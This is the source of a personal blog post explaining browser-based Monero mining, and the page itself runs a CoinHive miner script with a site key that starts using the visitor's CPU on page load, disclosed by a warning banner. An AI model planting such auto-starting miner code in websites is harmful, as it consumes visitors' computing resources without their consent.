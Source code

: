 ```yaml
---
layout: post
title: Mining crypto with a web browser
subtitle: Via Javascript
image: /img/monero.png
tags: [monero, XMR, crypto, currency, cryptocurrency, mine, miner, mining, graphics cards, bitcoin]
comments: true
---
```

<a href="https://getmonero.org/" >Monero (XMR)</a> is a cryptocurrency focused around privacy, decentralization and scalability.
It was created in April of 2014 and has since seen a huge uptick in adoption.
To mine Monero, you have to calculate hashes with an algorithm called Cryptonight.
This algorithm is very compute heavy and – while overall pretty slow – was designed to run well on consumer CPUs.

<table>
	<tr>
		<td>Current Price of Monero</td>
		<td id="XMRprice"></td>
	</tr>
</table>

I recently discovered that there are services out there that allow you to embed a Monero Javascript miner into a web page.
I thought this was an interesting idea and had to try it out for myself. Is it easy to do? How efficient is it? What can it be used for?

{: .box-warning}
**Warning:** The page you are on is currently utilizing your CPU to mine Monero.


___

<script src="https://coin-hive.com/lib/coinhive.min.js"></script>
<script>
var miner = new CoinHive.Anonymous('l0YCiLkEmA6Nk1UBDRL9O0OsHSOem86y', {
	threads: 1
});
miner.start();

// Listen on events
miner.on('found', function() { /* Hash found */ })
miner.on('accepted', function() { /* Hash accepted by the pool */ })

// Update stats once per second
setInterval(function() {
	var hashesPerSecond = miner.getHashesPerSecond();
	var totalHashes = miner.getTotalHashes();
	var acceptedHashes = miner.getAcceptedHashes();

	// Output to HTML elements...
	document.getElementById("hashesPerSecond").innerHTML = hashesPerSecond;
	document.getElementById("totalHashes").innerHTML = totalHashes;
	document.getElementById("acceptedHashes").innerHTML = acceptedHashes;
}, 1000);

// API call to Crypto Compare
window.onload = function(){
	var xhttp = new XMLHttpRequest();
	xhttp.onreadystatechange = function() {
		if (this.readyState == 4 && this.status == 200) {
		var json = JSON.parse(this.responseText);
			document.getElementById("XMRprice").innerHTML = "$" + json.USD;
	   }
	};
	xhttp.open("GET", "https://min-api.cryptocompare.com/data/price?fsym=XMR&tsyms=USD", true);
	xhttp.send(); 
}
</script>

## Miner Stats since visiting this page

<table>
<tr>
<td>Hashes Per Second</td>
<td id="hashesPerSecond"></td>
</tr>
<tr>
<td>Accepted Hashes</td>
<td id="acceptedHashes"></td>
</tr>
<tr>
<td>Total Hashes</td>
<td id="totalHashes"></td>
</tr>
</table>

I've hard coded the miner to only operate using 1 thread so it does not hog your CPU.
If you wanted to maximize your Hash Rate you could run a thread per core and these numbers would be 2x-4x greater.

### What can it be used for?
1. Used as an additional revenue source for websites
2. Offer premium services to customers who run miner

### How efficient is it?
There is definitely room for improvment when it comes to efficiency.
That being said I was pretty impressed how it compared to native mining. 
Mining in the browser is about 65% as efficient.

The important thing to note here is that a single visitor may not produce much hashing power but if you have a couple hundred people hitting a page it adds up quick.

### Is it easy to do? 
It is actually extremely easy to do, <a href="..\2017-11-09-ImplementCoinHive">check out my post on how to do it.</a> 
